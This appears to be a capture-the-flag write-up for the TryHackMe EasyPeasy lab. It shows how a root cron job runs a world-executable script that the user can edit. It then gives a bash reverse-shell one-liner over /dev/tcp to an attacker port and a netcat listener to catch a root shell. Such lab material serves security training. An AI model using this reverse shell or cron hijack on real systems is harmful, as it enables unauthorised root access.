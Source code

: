 ## Getting RootFlag
```sh
boring@kral4-PC:~$ cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
* *    * * *   root    cd /var/www/ && sudo bash .mysecretcronjob.sh

boring@kral4-PC:~$ l -las /var/www/
total 16
4 drwxr-xr-x  3 root   root   4096 Jun 15  2020 ./
4 drwxr-xr-x 14 root   root   4096 Jun 13  2020 ../
4 drwxr-xr-x  4 root   root   4096 Jun 15  2020 html/
4 -rwxr-xr-x  1 boring boring   33 Jun 14  2020 .mysecretcronjob.sh*


```

- Lets use a bash shell as bash has the permission

```sh
bash -i >& /dev/tcp/openvpn-ip/8080 0>&1
```
- I used a shell of pentestmonkey

```sh
boring@kral4-PC:/var/www$ nano .mysecretcronjob.sh
boring@kral4-PC:/var/www$ cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
* *    * * *   root    cd /var/www/ && sudo bash .mysecretcronjob.sh
```
```sh
┌──(root㉿BC-Here)-[/home/bc-here/CTF/THM/EasyPeasy]
└─# rlwrap nc -nlvp 8080
listening on [any] 8080 ...
```